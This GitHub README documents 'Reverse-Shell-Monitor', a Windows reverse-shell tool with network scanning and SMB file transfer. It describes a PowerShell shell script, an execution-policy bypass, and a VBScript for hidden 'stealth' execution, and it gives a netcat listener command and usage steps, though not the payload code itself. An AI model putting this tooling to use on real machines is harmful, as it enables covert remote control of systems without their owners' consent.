

# 

# Reverse-Shell-Monitor

Reverse-Shell-Monitor is a powerful tool designed to initiate reverse shell connections, scan networks, transfer files, and execute remote commands on Windows machines. Built using a combination of PowerShell, Batchfile, VBScript, Python, and shell scripting, it is ideal for penetration testers, system administrators, and cybersecurity professionals.

## Features

- **Reverse Shell**: Initiates a reverse shell connection from a target machine to a server.
- **Network Scanning**: Scans a network for connected devices.
- **File Transfer**: Uploads files to selected Windows machines.
- **Command Execution**: Allows remote command execution on the target machine.
- **Cross-Platform**: Uses PowerShell, Batchfile, VBScript, and Python for versatile functionality.

---

## Code Overview

### 1. Bare Metal Folder

This folder contains the core reverse shell scripts.

- **reverse-shell.ps1 (PowerShell Script)**: Establishes a reverse shell connection between the target and the server. It receives commands, executes them on the target machine using `cmd.exe`, and sends the output back to the server.

    **Parameters**:
    - `IPAddress`: The IP address of the server (defaults to 192.168.0.105).
    - `Port`: The port for reverse shell connection (defaults to 4444).

- **run_script.bat (Batchfile)**: Automates the execution of the PowerShell script, bypassing execution policy restrictions.

- **run_script.vbs (VBScript)**: Runs the batch file in the background without showing a console window, for stealthy execution.

---

### 2. Reverse Shell Tool Folder

This folder extends the tool’s functionality by adding network scanning and file transfer features.

- **Network Scanning**: Scans a network for connected devices using the `reverse-shell-network-scanner` script.
  
- **File Transfer**: Uploads files to a target Windows machine using the `reverse-shell-file-transfer` script.

    **Dependencies**:
    - `scapy`
    - `pysmb`

    Install the dependencies:
    ```bash
    pip install scapy pysmb
    ```

---

## Installation

### Bare Metal Installation

1. Clone the repository:
    ```bash
    git clone https://github.com/Giddy-K/Reverse-Shell-Monitor.git
    cd Bare_metal
    ```

2. Modify the `reverse-shell.ps1` script:
    ```bash
    Start-ReverseShell -IPAddress 'YOUR_SERVER_IP' -Port YOUR_PORT
    ```

3. Run the VBScript file to start the reverse shell in the background:
    - Double-click the `run_script.vbs` file for stealth execution.

### Reverse Shell Tool Installation

1. Clone the repository:
    ```bash
    git clone https://github.com/yourusername/reverse-shell-tool.git
    cd reverse-shell-tool
    ```

2. Run the installation script:
    ```bash
    sudo ./install.sh
    ```

---

## Usage

### Bare Metal Reverse Shell

1. Start a listener on your server:
    ```bash
    nc -lvp 4444
    ```

2. Once the target machine runs the script, you can begin sending commands to the target.

### Reverse Shell Tool Usage

1. **Network Scanning**:
    ```bash
    python3 /usr/local/bin/reverse-shell-network-scanner
    ```

2. **File Transfer**:
    ```bash
    python3 /usr/local/bin/reverse-shell-file-transfer --ip <target_ip> --username <username> --password <password> --domain <domain>
    ```

---

## Disclaimer

This project is for educational purposes only. Unauthorized use of this tool is prohibited. The authors are not responsible for any misuse or damage caused by this software.

---

## License

This project is licensed under the MIT License.

---

## Contributors

- **Gideon Kipamet** - [GitHub](https://github.com/Giddy-K)

Feel free to contribute and add your socials, GitHub profile, or name here.
